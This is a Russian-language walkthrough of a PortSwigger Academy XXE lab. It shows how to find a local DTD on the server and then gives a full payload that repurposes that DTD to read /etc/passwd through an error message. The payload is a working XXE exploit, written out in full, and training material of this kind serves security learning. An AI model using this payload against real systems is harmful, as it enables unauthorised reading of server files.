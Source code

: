 Зайдем на случайный товар, нажмем `Check stock` и найдем данный запрос в `прокси хттп хистори`
```
POST /product/stock
<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/11.%20XXE%20injection/7.%20Exploiting%20XXE%20to%20retrieve%20data%20by%20repurposing%20a%20local%20DTD/pics%20for%20walktrough/1.png)
Далее посканим dtd с помощью списка 
```
https://github.com/GoSecure/dtd-finder/tree/master/list
```
и на следующем шаге формируем запрос следующего вида

```
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE message [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>

<stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```
и получаем уведомление об успешно выполненной лабораторной работе
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/11.%20XXE%20injection/7.%20Exploiting%20XXE%20to%20retrieve%20data%20by%20repurposing%20a%20local%20DTD/pics%20for%20walktrough/2.png)

